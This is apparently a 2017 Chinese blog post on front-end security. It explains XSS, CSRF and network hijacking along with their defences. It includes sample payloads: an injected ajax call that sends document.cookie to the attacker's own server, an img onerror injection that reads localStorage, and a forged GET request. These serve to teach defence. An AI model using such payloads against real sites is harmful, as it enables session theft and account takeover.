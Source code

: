 ```yaml
---
title: 前端攻击与防御
description: 前端攻击与防御
keywords: js，前端攻击与防御，安全
date: 2017-01-30 22:17
tags: 攻击与防御
---
```

### 总结下前端安全，当然也不局限于前端。安全并不仅仅是客户端（浏览器端）的问题。

## 1.XSS攻击（cross-site scripting跨域脚本攻击）
XSS攻击也是最常见的WEB攻击之一，其重点是“跨域”和“客户端执行”。
比如如下代码：
```javascript
<body>
	<div>
		用户名：<?php echo $username;?>
	</div>
	<div>
		个人简介：dodoing.com  inqiu.com
	</div>
</body>
```
如果把上述的动态信息换成`$username="<script>alert('HI');</script>";`，结果如你所想，此页面会弹出alert。
那么这麽做又怎么实现攻击呢？试想下，假如我想获取别人的账户信息，该怎么做呢？

```javascript
//把上述的alert换成ajax
$.ajax({
    url: '自己的服务器',
    dataType: 'jsonp',
    data: {'盗取的用户cookie/localstorage': document.cookie}
});
```
然后，再在各个QQ群中，贴吧，各大论坛散播自己的空间，引诱别人来访问。就可以拿到用户在这个域名下的cookie或者其他隐私了。

### 怎么防御？
最简单的方法，是对<script>转义，转义为html字符实体
转义之后，便不会被当做标签来解析的，但是实际显示的时候，这两个尖括号，还是可以正常展示的。

再举个栗子，把用户可定义的图片地址换成如下
```javascript
<img src="/static/img/logo.png \" onerror="javascript:alert(localStorage.getItem('localdata'));">

//解决方法，对src转义
```
结论xss的攻击style有很多很多，防不胜防。我们只能尽可能的保护敏感信息，比如上述中的cookie，使用cookie的HttpOnly属性，js就不能读取了。

## 2.CSRF（cross-site request forgery）
翻译为跨站请求伪造，与XSS非常相似，但XSS是利用用户对当前网站的信任来发起攻击，而CSRF是利用网站对用户的信任来发起攻击。

比如你在黑客的网站的时候[如钓鱼网站ta0bao.com]，进行的操作（浏览、提交），会模拟get、post请求到其他网站上(如：你所使用的网络银行的网站)。
一张图片（如：url get请求[http://inqiu.com/post?username=inqiu]），一个连接，一个form表单提交，都可以模拟用户行为进行CSRF攻击。

### 怎么防御？
对敏感操作加上验证，比如验证码，或者token（每次访问生成新的token，提交时在服务器端验证此token是否合法）

## 网络劫持攻击
很多的时候，我们的网站不是直接就访问到我们的服务器上的，中间会经过很多层代理，如果在某一个环节，数据被中间代理层的劫持者所截获，他们就能获取到使用你网站的用户的密码等保密数据。
比如，我们的用户经常会在各种饭馆里面，连一些奇奇怪怪的wifi，如果这个wifi是黑客所建立的热点wifi，那么黑客就可以结果该用户收发的所有数据。
这里，建议站长们网站都使用https进行加密。这样，就算网站的数据能被拿到，黑客也无法解开。

如果你的网站还没有进行https加密的话，则在表单提交部分，最好进行非对称加密--即客户端加密，只有服务端能解开。这样中间的劫持者便无法获取加密内容的真实信息了。